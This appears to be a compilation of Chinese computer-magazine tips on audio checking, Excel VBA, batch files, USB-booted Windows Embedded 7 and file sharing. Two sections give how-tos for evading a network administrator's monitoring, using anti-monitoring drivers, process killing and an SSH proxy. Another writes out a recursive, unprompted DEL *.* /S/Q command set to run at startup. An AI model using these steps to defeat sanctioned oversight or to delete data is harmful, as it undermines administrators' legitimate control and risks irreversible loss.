小李是个音乐发烧友，听说APE和FLAC格式的音乐能毫无损失地保留原有音质，可以媲美CD的音质，因此他从网上下载了很多，打算刻成CD好好保存起来，等他辛辛苦苦地将CD刻录完成，试听的时候发现，这些音乐的效果跟CD的音质相距甚远，这下小李心里直犯嘀咕，人家的无损音频文件的音质都非常好，为什么自己的就差这么多呢？难道是CD刻录盘有问题？同为音乐发烧友的小吴听后，道出了原因。原来，小李从网上下载的APE，FLAC都是用MP3等有损压缩文件转换而来的，算不上真正的无损音乐，可是网上的音乐鱼龙混杂，怎么才能拥有一双火眼金睛，一眼识破呢？

要想分辨出无损音频的真伪，光靠耳朵听不行。每个人对音乐的敏感程度不同，分辨的准确性也不同，况且音响，耳机的好坏也直接影响我们对音效的判断，所以最好的办法就是请电脑为我们分辨。如果能让Foobar2000自动辨别文件的真假是最方便的了，但是，Foobar2000本身没有这个功能，需要安装auCDtect.exe和fooaucdtect.exe两个插件才能实现。

- 第一步：将这两个插件复制到Foobar2000的根目录下，然后打开参数设置，切换到“转换器”标签页，点击右侧的“添加”，在“编码器”栏中选择“自定义”，然后确定。在接下来弹出的窗口中，把“编码器”改为fooaucdtect.exe（在Foobar2000的根目录下），扩展名设置“autect”参数一栏中填上“-output %d --threads 4 --mode 0”（由于现在大部分的电脑都是双核芯，因此把threads线程设置为4，如果出错，就把4改为2；如果你的CPU是3核心，4核心，甚至是6核心，设置为6，8，12也未尝不可），“格式”改为“无损”或“混合”；下方的编码器名称改成fooauctdtect2，“设置”一栏填上“threads=2,mode=0”，完成之后单击“确定”。
- 第二步：使用Foobar2000打开需要测试的APE或FLAC文件，在需要测试的文件名上点击右键，选择“转换→转换到”，在弹出的“转换器设置”窗口的编码器中选择“fooCDtect2, threads=2,mode=0”之后单击确定，保存到任意位置，即可开始鉴定。真假就显示在“Type”下，“CDDA100%”就说明是真正的无损音乐，“MPEG95%”则是有损音频转换的。美中不足的是，对于有损音频的判定，几乎全部为MPEG，不过这对我们来说已经足够了。

### 小提示：

退出fooCDtect界面后，*.autect文件会自动删除，因此不会留下多余的垃圾文件。放心的用吧。如果还有些不放心，还可以通过频谱软件来看假无损文件和真无损文件的频谱对比，假无损文件的频谱一般在超过12000Hz的频率上几乎没有，而真正无损文件的音频很饱满，高频低频都得到很好的保留。

这下小李放心了，有了以上两种方法，再也不怕下载到假无损音乐了，还等什么？立刻把硬盘里的文件鉴定一遍，没问题的就刻盘收藏吧！

### 小提示：

除了以上办法外，我们还可采用如下办法实现音乐文件的验明正身

- 第一步：用Foobar2000增强版把APE格式转换成WAV格式。
- 第二步：下载foo_cuesheet_creator.dll插件并复制到Foobar安装目录的components文件夹里，将所有WAV音乐添加到Foobar2000的播放列表中，选择所有音乐并单击右键，选Utils→Save as cuesheet，将新生成的.cue文件保存到刚才的WAV文件夹中。（注：保存.cue文件时，必须采用ANSI编码，否则下一步无法成功！）
- 第三步：将刚才得到的文件刻盘或虚拟成CD光盘。
- 第四步：请出“鉴定专家”Tau Analyzer，载入光盘，在“Tracks”标签下列出了这张CD中的所有音乐。将左下角数字设置为4或5。单击左侧那个向右的箭头即可开始鉴定。稍等片刻，软件就鉴定完成。如果显示为CDDA，那就说明该文件确实为无损音频。如果显示为MPEG，那极有可能是由MP3等有损格式转换而成。

(文/郑白冰)

## “远交近攻” 躲开网管的监控(一)

### “近攻” 软件封堵法的破解

现在的一些网管会采用一些监控软件对局域网内的用户进行监控，像网路警、第三只眼这类软件不止是监控局域网内用户的数据，同时都有限制用户进行影音文件（MP3或是RMVB、RM等格式的电影文件）的下载，就是流量监控功能。所以，如果是针对软件封堵法，我们可以称之为“近攻”。

首先，根据网管采用的监控软件的不同，我们需要查看自己的局域网内网管采取的监控软件。从产品架构上，监控软件又可以分为两种：需要安装客户端的C/S架构产品和不需要安装客户端的B/S架构产品。对于C/S构架的产品，其实有点类似于木马程序，因为木马也是C/S构架，需要在被控电脑安装服务端，远程控制处安装客户端。

### 针对 C/S 构架的监控如何判断

通过防火墙查看，比如费尔防火墙3.0。运行费尔防火墙3.0，单击“监控室”按钮，在右侧的“网络监控室”列表框单击“当前连线”按钮查看列出的程序访问列表和当前连线的网络程序里面的目标IP/端口。如果您确实没用这些程序上网，但又有通信数据的，您就要重点怀疑可能是监控软件。如果发现可疑的程序，直接右键单击相应进程，在弹出的右键菜单中，您可以“切断连线”、“结束进程”等命令，结束监控。

如果你没有安装费尔这类SPI防火墙，也可以通过在运行中输入cmd打开命令提示符，输入netstat/ano命令，查看当前的网络连接。

由于B/S构建的产品，监控一般安装在互联网出口处，用镜像交换机或者网关方式实现监控，所以，无法通过以上方法查看。但是，我们可以通过使用软件来反监控，简单方便地就可以实现躲开网管的监控。

### 一、反监视(UnControl)软件

下载UnControl软件（http://www.crsky.com/soft/18527.html）并运行，现在软件自动检测当前是否存在监控软件，如果存在，直接“开始”按钮，清理即可。

但是，由于软件支持的监控软件只有网路警、第三只眼、网路岗等主流监控软件，但是千千万万的网管不可能只使用这三款监控软件，所以，下面介绍的超级隐身反监控软件更加适用。

### 二、超级隐身反监控软件

### 安装：

- 第一步：下载超级隐身反监控软件（http://www.duote.com/soft/21658.html），虽然是共享版，但是共享的功能足够我们使用了。下载后解压并运行安装向导.exe，点击“安装WinPcap”按钮，按照默认的步骤即可。（如果曾经安装过WinPcap驱动，可以不再安装驱动程序）。
- 第二步：安装完成WinPcap后，再点击“安装隐身驱动”按钮，安装底层超级隐身驱动程序FanJianKong.sys，过程中如果弹出多次硬件安装“Windows徽标”安全提示，全选“仍然继续”即可。
- 第三步：点击“安装主程序”按钮，安装主程序，按照默认安装步骤即可。安装完成后，会弹出安装完成的提示。

### 配置：

运行超级隐身反监控软件，在主界面中将“反局域网监控”和“局域网超级”复选框。最后单击“开始反监控”按钮，超级隐身反监控软件就开始工作了。这样就可以下载电影和MP3了。

(挑战者/xmsword)

## “远交近攻” 躲开网管的监控(二)

### “远交” SSH协议与VPN法

通过计算机的连接协议和VPN连接实现的是在远端躲开网管的监控，所以称为“远交”。我们可以使用SSH代理方式，来躲开网管的监控。

SSH协议可以有效防止远程管理过程中信息的泄露问题，透过SSH可以对所有的传输数据进行加密，也能够防止DNS欺骗和IP欺骗。首先我们需要获得SSH账号，你可以在网上购买，也可以直接自己注册。这里以提供SSH服务的老牌网站cjb为例，英文网站如果看不懂建议打开谷歌翻译。

- 第一步：在浏览器中输入www.cjb.net，打开cjb网站，单击导航条的“Shell Account”，在Account Information（账户信息）下，How do I sign up?（我如何注册）点击下方的Click here 进行注册，填写电子邮箱时一定要填写正确，因为你的SSH代理账号信息会发送到你填写的电子邮箱里。现在你可以登录邮箱收取一封激活账户信息的邮件，点击链接后激活账户，又会收到一封含有SSH账号等信息的邮件。
- 第二步：下载Myentunnel软件（http://s8.hk/5ft6），下载后运行，在Myentunel界面中切换至“设置”选项卡，将SSH代理服务器账号、密码输入、SSH服务器，默认设置代理端口为7070，单击“连接”按钮，连接SSH服务器。这时可以看到系统托盘的锁状图表，由黄色变成了绿色表示正常连接。由于是免费的SSH服务，可能连接出现错误，建议你多试几次。
- 第三步：现在如果你需要在线试听MP3，现在右击IE浏览器，在弹出的下拉菜单中选择属性，切换至连接“选项卡”。由于在局域网环境下，所以，单击“局域网设置”按钮，勾选为“LAN设置代理服务器”复选框，在地址中输入127.0.0.1，端口输入7070，最后单击“确定”按钮。
- 如果需要下载电影，只需要在下载软件中进行设置代理服务器下载，以迅雷7为例，单击右上方的“工具→设置”，打开设置面板，单击“代理设置”，选择“使用IE代理”，最后单击“确定”即可。

(挑战者/xmsword)

## Excel数据实时保护(一)

一般而言，自动化程度较高的功能多需用宏命令解决。首先打开Excel，点击“工具→宏→Visual Basic编辑器”或使用快捷命令alt+F11打开VBA，在弹出的VBA窗口中双击左上角的sheet1，在窗口中输入以下代码：

```
Private Sub Worksheet_SelectionChange(ByVal Target As Range)
On Error Resume Next
Me.Unprotect ("123456")
If Target <> "" Then
    Target.Locked = True
    Me.Protect ("123456")
End If
End Sub
```

关闭VBA，此时工作表sheet1通过我们添加的宏命令即可实现如题的功能。其他工作表同理。

（注：以上代码均需在英文状态下输入，“123456”是我们设置的密码，可因人而异。为保证宏命令的正常运行需要调整安全性，点击“工具→宏→安全性”，安全级设置为“中”。每次打开Excel文件时，点击启用宏即可使用。）

(挑战者/四川理工)

## Excel数据实时保护(二)

Excel本身没有提供现成的实时保护功能，如果要实现类似的功能，必须要用到Office里面强大的VBA来编写相关的代码以实现该功能，相关过程如下：

Excel2003版本依次点击“视图”——“工具栏”——“visual basic”菜单打开“visual basic工具箱”。

Excel2007和2010版本的“visual basic工具”在功能区里的“开发工具”选项卡中，该选项卡默认是不显示的，开启显示的方法是：

- Excel2007版本：单击 Office 按钮，单击“选项”，然后在“选项”对话框的“常用”类别中选中“在功能区显示‘开发工具’选项卡”复选框，即可显示。
- Excel2010版本的方法是：
    1.  在“文件”选项卡上，选择“选项”以打开“选项”对话框。
    2.  单击该对话框左侧的“自定义功能区”。
    3.  在该对话框左侧的“从下列位置选择命令”下，选择“常用命令”。
    4.  在该对话框右侧的“自定义功能区”下，从下拉列表框中选择“主选项卡”，然后选中“开发工具”复选框。
    5.  单击“确定”，即可显示。

在出现的“visual basic”工具箱中，找到“visual basic编辑器”按钮，并单击打开VBA编辑界面。整个界面和VB的界面差不多，左侧是工程和属性区，右侧是代码编辑区，在工程区有四个默认的对象。如果我们要给单个工作表进行数据实时保护的话，就要从sheet1到sheet3中选择一个，如果想给整个工作表进行保护的话，就要选择最下面的ThisWorkBook，在这里我们以给工作表1保护为例，在工程区内选择sheet1，单击鼠标右键，选择“查看代码”，打开“代码编辑”窗口，在里面输入以下代码：

```
Private Sub Worksheet_SelectionChange(ByVal Target As Range)
On Error Resume Next
Sheet1.Unprotect Password:="cfan"
If Target.Value <> "" Then
    Target.Locked = True
    Sheet1.Protect Password:="cfan"
End If
End Sub
```

注：

1.  第三行的sheet1指的是当前的工作表1，如果你要给其他工作表实时加密的话，要换成其它工作表的名称（如sheet2或者ThisWorkBook等）
2.  Password后面引号里的cfan指的是解除工作表保护的密码，大家可以把它随意变成自己的密码，需要注意的是，这个密码是区分大小写的。

(挑战者/殷强)# 亲手打造自动化一键垃圾清理器

电脑用久了就会产生各种垃圾，这些垃圾一般集中在系统或软件专门设立的临时文件夹中，比如系统开辟的用户临时文件夹、系统本身的临时文件夹、浏览器缓存文件夹等。为了提高系统运行效率，人们往往借助于安装一些清理工具来清理这些系统垃圾。你除了要安装软件外，每次清理时都得启动一下这个软件，然后定位到清理菜单或命令再执行清理。那么有没有更省事的办法来做到垃圾文件的自动清理呢？

其实，我们用系统自带的内部命令，就可以很方便地构造出一个万能而自动化的垃圾清理器。

## 一、构造一个基本的垃圾清理器

现在我们假设，要清除的临时文件位于Windows XP系统的Windows\Temp文件夹中。建立基本的垃圾清理器的步骤如下：

- 第一步：在该Temp文件夹中建立一个文本文件，如“清理TEMP.TXT”。
- 第二步：打开该TXT文件，在其中输入DEL *.* /S/Q命令，然后存盘。
- 第三步：将以上“清理TEMP.TXT”文件的扩展名更名为BAT。
  注意，上面命令中的DEL表示删除文件，加了参数/S表示删除的文件包含当前以及以下各级子文件夹，参数/Q表示删除的过程中不会提示用户确认而自动进行，因为在临时文件夹中还可能包含有带有隐含属性、只读属性的文件，因此建议在构建命令行时最好再加上参数/AH和/AR，分别表示删除隐含和只读文件。
- 第四步：执行建立的BAT文件，就可自动完成该目录以及以下各级目录下的文件清理任务。

### 小技巧：获取del命令的详细使用方法

在命令提示符窗口中，只要在系统提示符后面输入del命令，接着输入一个半角空格，然后输入一个半角的斜杠加一个半角问号，回车就会看到有关del命令的详细使用说明，包括命令调用格式、具体的每个参数的用法。

## 二、构造一个全能的垃圾清理器

需要清理的文件夹往往不只是系统的TEMP文件夹，我们可以将以上BAT文件复制到需要清空垃圾的所有文件夹内（如系统临时文件夹、网页缓存文件夹、其他需要清理的任何文件夹），然后在桌面上建立一个新的总批处理文件，总批处理文件的内容为调用所有以上建立的批处理文件（含具体路径）。这样，当执行桌面上的这个总批处理文件时，就会对所有需要清空的目录自动进行文件删除操作了。

### 小提示：如何调用另一个批处理

注意从一个批处理调用另一个批处理要使用CALL命令，如果不使用这个命令，而是直接调用批处理，那么在执行完第一个批处理文件后，不会返回来执行下面的批处理文件。

CALL命令的语法格式是：
```
CALL [drive:][path]filename [batch-parameters]
```
batch-parameters 指定批处理程序所需的命令行信息。

如果命令扩展名被启用，CALL会如下改变：CALL命令现在将卷标当作CALL的目标接受，语法是：CALL:label arguments

一个新的批文件上下文由指定的参数所创建，控制在卷标被指定后传递到语句。您必须通过达到批脚本文件末两次来"exit"两次。第一次读到文件末时，控制会回到CALL语句的紧后面，第二次会退出批脚本。键入GOTO /?，参看GOTO : EOF扩展名的描述，此描述允许您从一个批脚本返回。

有关CALL的详细参数描述以及调用说明，请参见CALL /?命令所给出的使用说明。

## 三、构造一个自动化的垃圾清理器

不管是单功能的还是多功能的，以上垃圾清理器也都必须由用户来执行一下桌面的快捷方式。如果要更进一步图方便、图省事，则可以将这个快捷方式复制一份，拷贝到系统的启动文件夹中（如在WinXP下一般是“C:\Documents and Settings\用户名\「开始」菜单\程序\启动”文件夹）。

这样一来，每当启动系统后，系统就会先自动清理所有该清理的临时文件夹，然后以轻健的状态开始迎接新的工作。

(文/张楚君)

# 自编简易型“树形目录制造者”

收藏资料的人们总希望以一种一目了然的方式浏览自己收藏的资料，而Windows的资源管理器，通过开启“文件夹”选项，就可以以两栏树形目录的方式显示资料，如果配合小键盘上的“*”号键，则便将所有资料一览无遗地呈现在你的眼前。那么，如果想要将这样的树形目录和文件列表以文件的形式保存下来的话，一般非得使用某些文件列表工具或资源管理器替代品，方能完成任务。

其实，用记事本结合系统自带的内部命令，就可以打造出一个可以显示和保存任何复杂结构的资料和文件的树形目录。

## 一、自编简易型“树形目录制造者”

- 第一步：在欲生成树形文件列表的文件夹内建立一个TXT文件，例如“树形目录制造者.TXT”。
- 第二步：打开刚才建立的文件“树形目录制造者.TXT”，在里面输入如下一行命令：
  TREE /F >树形目录文件列表.TXT
  然后存盘退出。
- 第三步：将以上建立的文件的扩展名改为BAT。

◆命令说明：

以上所用的TREE命令是Windows系统自带的一个内部命令，其作用是以图形字符的方式显示驱动器或路径的文件夹结构。命令格式如下：
```
TREE [drive:][path] [/F] [/A]
```
- /F 显示每个文件夹中文件的名称。
- /A 使用 ASCII 字符，而不使用扩展字符。

由于命令和参数不好记忆，直接调用命令又需要进入命令提示符窗口并切换到当前操作的窗口，过程比较麻烦。因此用如上方法建立批处理文件，为日后使用提供方便，是一劳永逸的好方法。

## 二、使用简易型“树形目录制造者”

将上面建立的BAT文件拷贝一份备用。如果想保存哪个磁盘或目录之下的文件树形目录结构，只要把该文件拷贝到这个磁盘或文件夹下运行一下，在同一文件夹下，你就可以获得一个以TXT类型保存的树形目录文件。打开这个文件，就是你所需要的树形目录结构了。有了这份文档，无论是资料明细的保留备查，还是传送共享，都将会很方便。

### 小提示：能够直接生成树形目录的浏览器

在需要得到资源管理器中某个文件夹中所有文件列表的TXT文本时候，直接用Windows菜单命令帮不了你的忙，这时我们往往就需要借助于上面介绍的DOS命令或批处理法完成，或者借助于一些专门的目录工具来完成。其实，还有一条路可走，如果你安装有增强型的资源管理器软件xplorer2 Pro，那么这项工作就可直接完成。

在该软件中，只要通过“编辑→复制名称”命令，就可以把所有选定项目的完整路径和名称以文本形式复制到剪贴板，在其他应用程序中需要引用文件列表时直接粘贴即可，相当方便。

如果我们需要更为详细的文件列表信息，希望能够包括资源管理器中可见的各种文件列表项目，通过“编辑→复制列”命令即可获得。你可以把这些信息保存为文本或进行打印，甚至输入Excel进行高级操作，这对管理文件来说是十分有用的一个操作。

更进一步，我们也可以用它来生成和复制目录树列表信息。通过“编辑→复制列”命令，可以很方便地把当前已展开的目录及其下级目录以目录显示的方式复制到剪贴板中。可以展开当前目录下的所有子目录。

(文/张进波)

# 利用AA3.0软件分离两种声音

这里有两个假设，应该是成立的，然后用这个办法可以实现声音剥开。

- 一是使用的数字录音设备，以诸如*.mp3等格式存档，如果用磁带录的，请参阅cfan2011年14期中的《家藏老磁带，轻松数字化》一文，转成数字格式；
- 二是外语讲座和中文翻译不能是同步进行的，也就是说，两种声音在时间上是线性存在，你说一句英文，他说一句中文，二者不是同声传译，没有水乳相交、混为一谈，初始录在一起则只能用不同声音的频谱分离办法，且一般情况下的效果很不理想。

- 1. 下载音频编辑软件Adobe Audition 3.0，推荐绿色免安装中文版，下载地址http://www.onegreen.net/Soft/HTML/7647.html。按照提示把AA3.0装好。
- 2. 在文件中打开录音，内容以可视化的波形显示，如图1，选听好中文和外文的时段。最简单的就是把外文部分全部剪切掉，按照顺序依次粘贴到另外一个AA3.0的录音窗口中。剪切后，波形会自动衔接。全部完成后，在文件\另存为选项中，存为MP3格式的新文件，分别就是中文版和外文版的讲座内容了。
- 3. 这里要注意的是，在新打开的AA3.0窗口中，要点文件\新建，一般选44.1KHz，16bit，立体声，即为CD音质。然后点击录音按键，先录制几秒钟的内容（可以是空白），才能把剪切的内容粘贴到界面中，如图2。





(挑战者/李传忠)

## U盘直接跑精简版Win7

看到标题有人会问为什么要用U盘或移动硬盘跑Win7？我的U盘已经装了WinPE，维护装机不都够了？再说，微软的产品一向对版权很重视，换个新主板Win7都提示盗版，何况更换机器？还有，USB 2.0的速度并不很好，运行Win7会巨卡的。

其实我写本文的原因，是在某论坛看到了有人发帖题为“打造自己的USB版Win7”，经我仔细阅读，发现原文中的介绍存在以下问题：

- 1. 只能将原版未精简Win7装到U盘，对U盘容量要求高（8GB及更高）。
- 2. 系统不具移动性，只能专机专用。
- 3. 系统虽然可以正常安装及运行，但巨卡，倒不如用PE。

### ——为什么要用USB@Win7？

- 理由1：功能强大，支持维护软件多。
- 理由2：使用简单，可以轻松将设置（如驱动、历史记录、病毒库等）保存在USB设备中。

### ——如何解决以上诸多问题？

本文所说的Win7为Windows Embedded Standard 7（以下均用WES7简写），就是微软官方出品的Win7的定制版，2进制代码和桌面版完全相同，因此功能也基本一样，主要区别在于：

- 1. WES7微软正式支持定制的唯一Win7版本，定制包括精简减肥；使用非官方精简工具，精简出来的系统，往往问题多多，比如不能升级，不能够2次封装等等，使用WES7精简的系统，就没有这样的问题；使用WES7，可以很容易搞一个几百兆的精简版Win7。
- 2. WES7具有所谓“嵌入式”特性，一方面来说WES7具有桌面版没有的“嵌入式”组件和功能，主要有：写过滤、快速启动（HORM）等。写过滤是最关键的“嵌入式”组件，依靠这个组件实现免维护，防病毒的关键特性。快速启动实现了像电器一样的启动速度，电脑断电后几秒内启动。
- 3. WES7是不需要激活的，只要将正式版的Key（和普通桌面版的Key不通用）填入：slmgr /ipk XXXXX-XXXXX-XXXXX-XXXXX-XXXXX，就激活了，并不像桌面版零售版，需要上网或者服务器、电话等激活；也不同于OEM桌面版，并不需要特别的BIOS。
- 4. 最重要的：WES7微软公开免费使用180天，到期后如果需要再用下去，只需要按照微软公布的正规方法：执行一下slmgr.vbs -rearm重置激活，就可以再使用180天，可以这样重置激活6次，这就等于可以免费使用3年。3年后，按照微软官网公布的方法更改注册表还可以使用4年。当然，重装，又重新使用7年。（以上关于WES7的介绍摘自网络）

### 大体思路

本文采用微软官方下载的原版WES7 SP1，由于WES7官方原版并不包含常见的“install.wim”只支持用光驱进行安装，U盘、常见WinPE以及安装器对它都无可奈何。官方虽然也有专业的部署工具；但像我这样的菜鸟不仅懒得下载那样的庞然大物，更怕是不会用。为了让和我一样没有刻录机的童鞋都能用到，本文采用“偷天换日”的方式进行部署安装，大体如下：将下载到的ISO“插入虚拟机”启动→在虚拟机中完成第一部分的部署→关掉虚拟机换用含有Ghost的光盘或软盘镜像将虚拟机C：分区备份→将备份的.gho文件还原到U盘→修改U盘上系统的注册表使其支持USB启动→重启实机用U盘完成剩下的安装。

### 系统下载

微软官方下载（须有MSN ID，微软会给你的邮箱发去激活Key，可以用笔抄下来之后用到）
```
http://www.microsoft.com/windowsembedded/en-us/downloads/download-windows-embedded-standard-7.aspx
```
下载时只选择前5个，即Standard_7SP1_32bit\Standard 7 SP1 32bit IBW.part1.exe~Standard_7SP1_32bit\Standard 7 SP1 32bit IBW.part5.rar，之后在本地硬盘运行第一个.EXE即可解压出ISO文件。

### 部署及安装过程

小插曲：由于WES7 SP1中未包含简体中文语言包，所以需要我们手动添加，不过过程相当简单：用ULTRAISO（软碟通）打开ISO文件，找到文件夹“DS\Packages\LanguagePack”，新建文件夹“x86-microsoft-windows-embedded-languagepack-package-zh-cn~~6.1.7601.17514~1.0”，将下载到的语言包.7z文件解压，提取出来“lp.cab”放到新建的文件夹下保存即可。（语言包下载地址：http://dl.dbank.com/c0pn4bwtmf）

由于该系统自己定制比较繁琐，在此特地准备网友已经做好的.XML应答文件，保留了Win7的绝大部分功能，安装完后体积仅2.5GB左右，因此4GB的U盘完全可以安装。（WES7_32.xml文件下载地址：http://dl.dbank.com/c09cbwwcp3）请将文件一同放置于ISO文件中，便于后面调用。

- 1. 新建一台虚拟机并事先进入PE或DOS将虚拟硬盘分区并格式化（至少两个分区，第一分区C：必须NTFS格式，便于后面操作）（笔者采用VMware，尽量把配置调高以便加快速度），将之前备好的ISO“插入”虚拟机光驱，并启动，很快进入部署界面。
- 2. 选择第二个按钮“deploy an answer file or wim”，浏览文件时选择我们刚刚保存到光盘中的WES7_32.xml文件即可，接着选择磁盘分区，一定要选C：，且不进行其他的磁盘操作，以便之后顺利进行。（安装程序自带的格式化会搞出100MB隐藏分区，不便于后面的Ghost备份操作）
- 3. 耐心等待，复制文件、展开文件、安装功能和更新……当提示重启虚拟机时，直接关闭虚拟机电源，而不是重启。（重要！）
- 4. 设置虚拟机，向虚拟机中添加磁盘，将你的U盘设置为虚拟机的一块硬盘；更换虚拟机光驱中的ISO，可以是带Ghost的PE或DOS，进入PE或DOS，用Ghost备份虚拟机C盘到D盘XX.gho，再把XX.gho还原到你的U盘（在虚拟机中会认作本地磁盘），完成以后关掉虚拟机。
- 5. 下载usbreg.cmd（http://dl.dbank.com/c0fbjf7ttj），在当前Windows环境下运行CMD，输入以下脚本：“usbreg.cmd u:”（其中U代表U盘盘符），此步骤原理及具体操作，Win7/2008 R2 USB启动其实只是由两个注册表项控制的：“HKLM\system\CurrentControlSet\Control\BootDriverFlags”和“HKLM\system\CurrentControlSet\Control\PnP\PollBootPartitionTimeout”。把第一个值设成4就可以在启动开始阶段就加载usb驱动；而第二个则控制内核等待启动分区PnP反应时间，USB启动设为15000（win7 embedded的值）或者30000（hyper-v r2中的值）。

由此看来，USB启动普通Win7非常简单，微软完全已经设计好了。默认不能装到USB设备纯粹是微软策略上的考虑。

此处我们操作时要注意：打开cmd时默认目录在用户文件夹，如C:\Users\用户名>，我们可以把下载到的usbreg.cmd放到该目录，并输入上述命令，也可以利用cd+路径的方式来操作。

- 6. 重启机器，设置你的U盘为第一硬盘（或者第一启动项），这时会自动进入下一阶段的部署安装，此时会对U盘进行大量读写操作，速度会比较慢。接着就会进入Win7桌面。

### 最后配置

装完系统首先就是检查驱动是否全部装好，然后就是配置网络。

为了使系统具有可移动性，我们还需要做一个小小的工作：导入注册表USB跨平台.reg文件（文件下载：http://dl.dbank.com/c0c9tak9va）。

【原理说明：关于USB Win7的换机器的可移动性，根据目前一些人的测试，USB启动Win7只要CPU是同一牌子的就基本能通用。比如从nVidia芯片组的AMD CPU机子换到AMD芯片组的AMD CPU机子都没问题。根据yueyezhan的测试，如果CPU品牌不同只要改一下注册表的iaStorV和msahci两项就能在不同机子间通用。所以在插到其他机子前，导入这个注册表文件就可以了。】

接着还要导入之前我们记下的Key，上文已有说明（运行CMD——键入slmgr /ipk XXXXX-XXXXX-XXXXX-XXXXX-XXXXX即可）。

更多配置看个人喜好，如升级IE至IE9，运行自动更新……

```
slmgr /ipk XXXXX-XXXXX-XXXXX-XXXXX-XXXXX
```

这个阶段系统会比较卡，我们只要输入一个命令即可改变现状，让系统飞速运行，且具有一定的防毒作用：“ewfmgr c: -enable”启用EWF保护，此时对C盘（即U盘）的更改将写入内存，大大提速。EWF是系统自带，是原版Win7所不具备的，它虽具有保护作用，但对个别病毒仍无能为力。

若要保存更改，请执行“ewfmgr c: -commit”后，再执行“shutdown -r -f -t 01”。

不建议开启实时防毒和防火墙等软件，可以将病毒库更新到最新用来做扫描器，以减少不必要的资源浪费，因为我们不会整天用USB@Win7，仅仅是当硬盘系统损坏时用来维护。

### 实战演练

我身边有3台同品牌型号的同方机器，如果是PE的话，每次进桌面需要加载安装大量驱动，且操作完一次数据就全丢了，下次还得从头再来。这对于USB@WIN7就简单了，只要在一台机器用过并保存了驱动等设置，其他两台就可以快速启动使用了，而且启动后不会看到可恶的“您是盗版软件的受害者……”，上网、下载系统、QQ求助网友，还有保存好的最新病毒库，让你用着得心应手！我想，这对于工作单位大量同型号电脑会有很大帮助，一台启动不了又急着用电脑，插个U盘也可以暂时顶顶。至于经常在不同型号电脑间切换，则每次用完都保留设置就好。

（文/潘俊文）

## 用好迅雷文件邮 匿名分享大文件

平时如果有文件想要分享怎么办？用QQ发送太慢了，如果不是QQ会员，虽然能够用离线文件，但1天只能发送20MB。而且，一旦点错了按钮，离线文件将永远消失。而如果使用网盘外链功能，很多网盘有单文件大小限制，一般都在100MB以下，这在文件变得越来越大的今天显然是不够用。有了迅雷文件邮，我们就算匿名也可以直接将自己的大文件与好友们快速分享，单文件大小可以大至500MB，而且上传文件个数不限制。对于迅雷网络中已经存在的文件，更可以做到“瞬间上传”。同时，上传资源好友可以有长达7天的下载时间，随时可以下载；还能够通过迅雷7来加速下载，很值得使用。

直接登录文件邮的网页版本http://wjy.xunlei.com，之后只要单击“添加文件”按钮即可自行添加欲分享的文件，单击“上传”按钮，这时将会生成一个类似http://wjy.xunlei.com/d/KBMHYTJTFSQH的链接，将它直接发送给好友，他们就可以直接下载。而且，对方就算不安装迅雷，也可以直接单击“下载”按钮来下载。如果安装有迅雷，则可以单击“高速下载”调用迅雷来下载，还可以使用离线下载和高速通道来加速。另外，我们还可以将分享的文件分享到其他地方，比如：QQ空间、新浪微博、开心网、人人网等SNS应用上，从而加强你的人气！

（文/江北书生）

## 快盘实现局域网文件高速共享

时间：2011年8月的一个下午
地点：某公司
人物：笔者、同事
事件：“哥们，我有一个文件夹要共享给你，但是用IM工具传起来怎么这么慢啊！”笔者正准备共享一个文件夹给同事。
“你太out了！这年头，谁还用IM工具来传文件？何况我们还在同一个局域网里！速度慢不说，你传给我，我改后还要再传给你，来来回回，要多少次啊！麻烦不说，弄不好就把文件的版本弄错了”同事不屑地说道。
“那怎么办？赶紧给个解决方案！”我哀求道。
“哈哈，这个太容易了啊！我只要把我的快盘账号告诉你，你将文件通过快盘共享给我，我就可以很快收到。因为我们在同一局域网中，所以我可以以局域网速度来接收，即以高达100Mbps甚至1000Mbps的速度来接收共享文件！”
于是，一场局域网文件高速共享开始了……

### 一、确认启动局域网加速

首先，笔者同事右击了快盘在任务栏处的图标，选择“设置”命令。在打开窗口中单击“同步”标签，并确认选中“启用局域网加速”复选框。同时，再单击“网络”标签，并确认选中“不限制上传下载速度”复选框，最后单击“确定”按钮。

### 二、共享文件给同事

接下来，笔者右击欲共享的文件，选择“共享给好友”命令，在打开窗口中输入同事的快盘账号，单击“确定”按钮，以将文件共享给同事。

### 三、以局域网速度接收共享文件

在笔者共享后，同事的快盘就开始同步了，并且以局域网的速度下载到了快盘中。由于笔者将文件以编辑者权限共享给了同事，所以同事可以在其中进行修改，而且修改后的文件笔者还能够看到最新的版本。
众所周知，很多人在公司都需要传输文件，如果开共享文件夹吧，怕不安全，用一些传输工具吧，注册添加好友又太麻烦了，而且传输速度还得不到保证。现在我们只要有快盘账号，问题就迎刃而解了。最后附带说明一句，快盘还支持文件夹操作呢。
（文/书虫）

## 虚拟机文件共享 我有妙招

虽然现在已经是Win7的天下，但是在某些情况下，我们还是会用到XP，因此许多朋友都会将XP安装到VPC虚拟机里边以满足自己偶尔使用XP的需要。可是某一天要在虚拟机中运行某些文件资源时，却发现自己使用的精简版VPC没有自带和主机进行文件共享的附加模块“VMAdditions”，从而无法将主机里边的文件复制到虚拟机中。想想看吧！如果此时从网上下载该附加模块并安装到VPC虚拟机中，这的确是一件非常麻烦的事，并且单一的附加模块“VMAdditions”在网上并不好找。其实，如果不是经常往虚拟机中复制文件，我们可以采用一个变通的方法来解决这个问题。
先关闭VPC虚拟机并右击桌面的“计算机”图标，选择“管理”，打开“计算机管理”窗口的“存储-磁盘管理”分支；接着右击“磁盘管理”分支，选择“附加VHD”，打开“附加虚拟硬盘”对话框，然后单击该对话框中的“浏览”按钮，将VPC虚拟机所创建的虚拟硬盘（如“Win 7.VHD”）添加进来，再单击“确定”按钮即可。
完成上述操作后，大家就会在“计算机管理”窗口中看到虚拟硬盘所拥有的各个分区了。此时双击桌面的“计算机”图标以打开“计算机”窗口，将真实硬盘某个分区中需要在虚拟机里边运行的文件资源复制到如图所示虚拟硬盘的K盘、M盘、或L盘中（如M盘），最后右击图中A处左边所示的“磁盘2”，选择“分离VHD”，将虚拟硬盘文件Win 7.VHD卸载就可以了。

小提示：
加载虚拟硬盘Win 7.VHD以后，图中的K盘、M盘、L盘分别对应虚拟机中XP环境下的C盘、D盘和E盘。

这样一来，当我们再一次运行虚拟机VPC中的XP时，在打开的虚拟机中的D盘分区，就能找到复制到虚拟机里边的文件资源了。有此需求的朋友不妨一试。
（文/闫华礼）

## 双剑合璧 识别图像并重命名

